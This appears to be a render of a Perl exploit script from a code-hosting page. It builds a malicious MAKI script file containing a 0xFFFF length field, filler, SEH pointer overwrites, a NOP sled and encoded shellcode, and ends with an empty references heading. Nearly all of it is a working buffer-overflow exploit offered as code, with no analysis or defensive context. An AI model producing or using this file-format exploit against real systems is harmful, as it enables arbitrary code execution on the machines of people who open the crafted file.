 ```perl
"\x71\x7a\x66\x70\x70\x56\x43\x67\x72\x48\x6e\x79\x4e\x45" .
"\x54\x34\x63\x51\x69\x6f\x5a\x75\x6e\x65\x49\x50\x31\x64" .
"\x46\x6c\x79\x6f\x50\x4e\x66\x68\x50\x75\x68\x6c\x31\x78" .
"\x58\x70\x38\x35\x39\x32\x61\x46\x6b\x4f\x48\x55\x73\x58" .
"\x61\x73\x32\x4d\x71\x74\x67\x70\x4c\x49\x7a\x43\x46\x37" .
"\x43\x67\x43\x67\x70\x31\x48\x76\x50\x6a\x52\x32\x72\x79" .
"\x32\x76\x5a\x42\x79\x6d\x35\x36\x4b\x77\x37\x34\x34\x64" .
"\x47\x4c\x47\x71\x65\x51\x4e\x6d\x37\x34\x45\x74\x72\x30" .
"\x78\x46\x75\x50\x52\x64\x43\x64\x42\x70\x70\x56\x30\x56" .
"\x32\x76\x32\x66\x53\x66\x42\x6e\x52\x76\x61\x46\x32\x73" .
"\x53\x66\x33\x58\x62\x59\x7a\x6c\x57\x4f\x4b\x36\x6b\x4f" .
"\x6b\x65\x4f\x79\x49\x70\x72\x6e\x76\x36\x31\x56\x39\x6f" .
"\x76\x50\x35\x38\x43\x38\x4f\x77\x37\x6d\x51\x70\x6b\x4f" .
"\x68\x55\x6d\x6b\x78\x70\x6c\x75\x69\x32\x31\x46\x33\x58" .
"\x4c\x66\x5a\x35\x4f\x4d\x4d\x4d\x4b\x4f\x6a\x75\x45\x6c" .
"\x43\x36\x63\x4c\x45\x5a\x6f\x70\x59\x6b\x69\x70\x71\x65" .
"\x46\x65\x4d\x6b\x77\x37\x76\x73\x43\x42\x62\x4f\x50\x6a" .
"\x33\x30\x70\x53\x39\x6f\x79\x45\x41\x41";

# combine all the malicious input components together
$buffer = $filler . $next_seh_ptr_overwrite . $seh_handler_ptr_overwrite . $nops . $shellcode;

binmode STDOUT;

$| = 1;

$length = "\xFF\xFF";

my $maki =
"\x46\x47" .                              # Magic
"\x03\x04" .                              # Version
"\x17\x00\x00\x00" .                      # ???
"\x01\x00\x00\x00" .                      # Types count
"\x71\x49\x65\x51\x87\x0D\x51\x4A" .      # Types
"\x91\xE3\xA6\xB5\x32\x35\xF3\xE7" .

"\x01\x00\x00\x00".                       # Function count
"\x01\x01" .                              # Function 1
"\x00\x00" .                              # Dummy

$length .                                 # Length
$buffer;

print $maki;

```

## References and Collaborations

### References
